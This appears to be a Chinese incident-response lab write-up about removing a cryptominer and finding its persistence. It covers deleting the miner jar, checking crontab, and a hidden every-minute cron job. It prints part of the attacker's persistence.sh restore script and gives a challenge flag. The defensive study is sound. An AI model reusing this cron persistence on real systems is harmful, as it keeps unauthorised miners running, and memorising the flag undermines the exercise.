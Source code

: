     找到了矿池程序以后，那么就应该后面的收尾工作了，删除挖矿木马文件  

```
rm -rf /tmp/miner.jar

```

  
![fig:](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpOnzwgNQBx5nNnTM5GGCicn0t20KuPpdNQrW98VibS6MksNictBx45QRfFu2298iaZuJlt4ia84SAxAkbw/640?wx_fmt=png&from=appmsg "")  
  
    确实删除了，但是CPU还在消耗，说明后台程序还在运行，我们需要kill掉这个进程  
  
![fig:](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpOnzwgNQBx5nNnTM5GGCicn03HcyfrPpsZNPAU75qickv1JfrzkR18PCGDndNyHerzhNv4ekHZQ4mRA/640?wx_fmt=png&from=appmsg "")  
  
    删除文件且杀掉进程成功，CPU消耗下来了，查看/var/flag/2/flag  
  
![fig:](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpOnzwgNQBx5nNnTM5GGCicn08mibx6ReyA0TNicqUjD6rNSSZQRZG9terUXntTRqF6nZwdW7wm76whlA/640?wx_fmt=png&from=appmsg "")  
  
flag{da236fe0cda81bfc03d022799589110e}  
#### 黑客做了后门，即使你清除以后，仍然会定时更新挖矿程序并运行，你找到这个程序，提交其路径  
  
    一般这种情况，黑客好不容易拿到了主机控制权限，是肯定会做后门的，比如**备份文件**  
、**计划任务**  
、**隐藏用户**  
等，这里我们只针对后门排查，其它的可以参考既往文章进行排查  
  
![fig:](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpOnzwgNQBx5nNnTM5GGCicn0Np1OeJ4icRoGxQOQiaP9MkYIV5ajM0hicsBYEz50xAaqQzBibDDnTnRjsw/640?wx_fmt=png&from=appmsg "")  
  
    一分钟后程序再次被恢复以及CPU继续飙升，恢复的原理肯定有检测，那么执行肯定不是手动，那也就是**自动执行**  
的  
  
    查看计划任务，比如  

```
crontab -l  
ls -la /etc/cron*

```

  
![fig:](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpOnzwgNQBx5nNnTM5GGCicn01hLykZXT3Bo6ZvEF85UUfnwibLE4G9e3JZSc6M3TJJOib7m7kZ6kqmjg/640?wx_fmt=png&from=appmsg "")  
  
    可以看到，在root权限运行了一个**persistence.sh**  
的脚本，且目录还是.**per**  
也就是隐藏目录  

```
* * * * * /usr/share/.per/persistence.sh  
表示每分钟运行一次

```

  
![fig:](https://mmbiz.qpic.cn/mmbiz_png/icdGEWOnYLpOnzwgNQBx5nNnTM5GGCicn0n5KrwBAicBcOea6Au49VfO6ia6pQ4icjy5G8icZetaCD2U0AZqnDNA2Vvw/640?wx_fmt=png&from=appmsg "")  
  

```
#!/bin/bash  

SOURCE_FILE=&#34;/usr/share/.miner/miner.jar&#34;
DEST_FILE=&#34;/tmp/miner.jar&#34;
PROCESS_NAME=&#34;java -jar $DEST_FILE&#34;
LOG_FILE=&#34;/var/log/.malware_events.log&#34;

if pgrep -f &#34;$PROCESS_NAME&#34; > /dev/null; then

exit 0  
else

echo&#34;[$(date)] Miner process not found. Taking action...&#34; >> &#34;$LOG_FILE&#34;
```